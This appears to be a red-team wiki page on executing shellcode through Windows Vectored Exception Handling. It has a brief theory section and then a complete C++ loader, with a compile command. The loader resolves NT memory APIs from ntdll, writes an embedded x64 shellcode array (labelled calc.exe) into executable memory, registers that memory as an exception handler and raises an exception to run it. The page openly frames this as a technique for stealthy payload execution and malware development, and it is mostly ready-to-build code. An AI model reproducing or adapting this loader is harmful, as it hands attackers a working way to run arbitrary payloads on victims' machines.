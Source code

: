 # Vector Exception Handler Shellcode Execution

## Theory

Vectored Exception Handling (VEH) is a Windows mechanism that allows applications to register exception handlers before Structured Exception Handling (SEH) takes over. This mechanism can be abused for code injection and execution, making it useful for red team operations and malware development.&#x20;

#### **Vectored Exception Handling (VEH)**

Vectored Exception Handling provides a method for intercepting exceptions raised by a process before Structured Exception Handling (SEH) is engaged. Unlike SEH, which follows a per-thread linked list, VEH is process-wide, making it an attractive technique for stealthy payload execution.

The key API functions used in VEH execution include:

* `AddVectoredExceptionHandler`: Registers a custom exception handler.
* `RemoveVectoredExceptionHandler`: Unregisters the handler.
* `RaiseException`: Triggers an exception to execute the registered handler.

#### **Execution Flow**

1. **Retrieve NTAPI Function Pointers**:
   * Load `ntdll.dll` and resolve function addresses for `NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, and `NtProtectVirtualMemory` using `GetProcAddress`.
2. **Allocate Memory**:
   * Call `NtAllocateVirtualMemory` to allocate memory in the current process with `PAGE_READWRITE` permissions.
3. **Write Shellcode into Allocated Memory**:
   * Use `NtWriteVirtualMemory` to copy shellcode into the allocated region.
4. **Set Memory Permissions to Executable**:
   * Change the memory protection to `PAGE_EXECUTE_READ` using `NtProtectVirtualMemory`.
5. **Register the Vectored Exception Handler**:
   * Call `AddVectoredExceptionHandler`, specifying the allocated shellcode region as the handler function.
6. **Trigger Exception to Execute Shellcode**:
   * Call `RaiseException(0x41414141, 0, 0, NULL)`, which causes the VEH to intercept and execute the registered handler.
7. **Cleanup**:
   * After execution, `RemoveVectoredExceptionHandler` is called to unregister the handler.

## Practice

{% tabs %}
{% tab title="C++" %}
The following code implements this technique:

{% code title="Vectored.cpp" %}
```cpp
#include <iostream>
#include <windows.h>
#include <psapi.h>
#include <tlhelp32.h>
#include <stdlib.h>
#include <tchar.h>

// Add these typedefs and function declarations for the NT functions
typedef NTSTATUS (NTAPI *pNtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

typedef NTSTATUS (NTAPI *pNtWriteVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    PVOID Buffer,
    SIZE_T NumberOfBytesToWrite,
    PSIZE_T NumberOfBytesWritten
);

typedef NTSTATUS (NTAPI *pNtProtectVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    PSIZE_T RegionSize,
    ULONG NewProtect,
    PULONG OldProtect
);

// Define NTSTATUS if not already defined
#ifndef NTSTATUS
typedef LONG NTSTATUS;
#endif


DWORD WINAPI esc_main(LPVOID lpParameter)
{
    DWORD dwSize;
   
    // calc.exe shellcode
    unsigned char decoded[] = {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00};
    SIZE_T length = sizeof(decoded);

    // Load NT functions dynamically
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (!hNtdll) {
        std::cerr << "Failed to get handle to ntdll.dll" << std::endl;

    }
    
    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    pNtProtectVirtualMemory NtProtectVirtualMemory = (pNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
    
    if (!NtAllocateVirtualMemory || !NtWriteVirtualMemory || !NtProtectVirtualMemory) {
        std::cerr << "Failed to get addresses of NT functions" << std::endl;
    }
    
    HANDLE hProc = GetCurrentProcess();
    DWORD oldProtect = 0;
    PVOID base_addr = NULL;
    SIZE_T bytesWritten;
    SIZE_T pnew = length;
    NTSTATUS status;

    // Allocate memory for shellcode
    status = NtAllocateVirtualMemory(hProc, &base_addr, 0, &pnew, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (status != 0) {
        std::cerr << "NtAllocateVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    // Write shellcode to allocated memory
    status = NtWriteVirtualMemory(hProc, base_addr, decoded, pnew, &bytesWritten);
    if (status != 0) {
        std::cerr << "NtWriteVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    // Change memory protection to executable
    status = NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&pnew, PAGE_EXECUTE_READ, &oldProtect);
    if (status != 0) {
        std::cerr << "NtProtectVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    std::cout << "Executing shellcode using Vectored Exception Handler..." << std::endl;

    // Register vectored exception handler pointing to shellcode
    PVOID handler = AddVectoredExceptionHandler(1, (PVECTORED_EXCEPTION_HANDLER)base_addr);
    if (!handler) {
        std::cerr << "AddVectoredExceptionHandler failed with error: " << GetLastError() << std::endl;
    }

    // Trigger exception to execute handler
    RaiseException(0x41414141, 0, 0, NULL);

    // Remove handler after execution
    RemoveVectoredExceptionHandler(handler);

    std::cout << "Execution completed" << std::endl;
    return 0;
}

int main()
{
    esc_main(NULL);
    return 0;
}
```
{% endcode %}

We can compile it from linux using following command

```bash
x86_64-w64-mingw32-g++ Vectored.cpp -o Vectored.exe -std=c++20 -static
```
{% endtab %}
{% endtabs %}

